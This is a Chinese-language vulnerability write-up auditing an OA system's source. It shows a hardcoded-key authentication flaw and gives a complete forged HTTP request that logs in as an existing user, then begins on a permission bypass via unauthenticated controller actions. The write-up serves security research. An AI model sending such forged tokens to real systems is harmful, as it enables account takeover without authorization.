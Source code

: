 **任意用户登录**  
  
  
  
在上传的篇章中是可以知道架构的，看了oa下的文件，发现Auth的鉴权控制器查看后发现存在硬编码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WkeGNRBXSqZzEOa6PPXUAuZVPstOI1HbTLiaPNxO0L5aaIWmWibCr8vOg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6Wmc8dPAmpYETkkTRVurAWgqlFLCFk3NTJicSpkBY6zEsHTjU3meG2KmQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
当然也给了注释  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6Wa7zhVjkZ3vhb0jXaF2GokK0NoqWEib6GyHltNWmljkIJ8vCdJsapNYQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
那么构造逻辑即可成功登录，传入user base64加密的内容并且跟key进行拼接后再md5加密传为token， 两者相等即可登录  
  
  
前提是user是存在的(跑一下就知道是zhangsan存在)  
```
GET /oa/auth/withub?user=emhhbmdzYW4=&token=b336aa3ea64e703583bb7cbe6d924269 HTTP/1.1
Host: xxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# user zhangsan
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WIXD61fGmkgib1CClklYw7r1X2ImlWJMRCEs6pZzzmq6lFpqanI3PLLg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
直接跳转即可登录了  
  
  
**权限绕过**  
  
  
  
找到这个文件   
  
api/modules/v1/controllers/UserController.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6Wzs5xia7GVLwsGUDA7mQJhmJr78keYHxaxk7nOichmruXKcVwjQp5tfKQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
细看这里的代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WeURjfPFvRcVWc6ttXjicknjT7KPVS9P9ZzI54xoO712fGgtSkVPXMfg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
```
    // 不需要认证的方法，用下划线形式，如get_info
    public $notAuthAction = ['auth','verify-url'];
```  
  
方法名为  
```
actionVerifyUrl()
actionGetInfo() 
actionAuth()
```  
  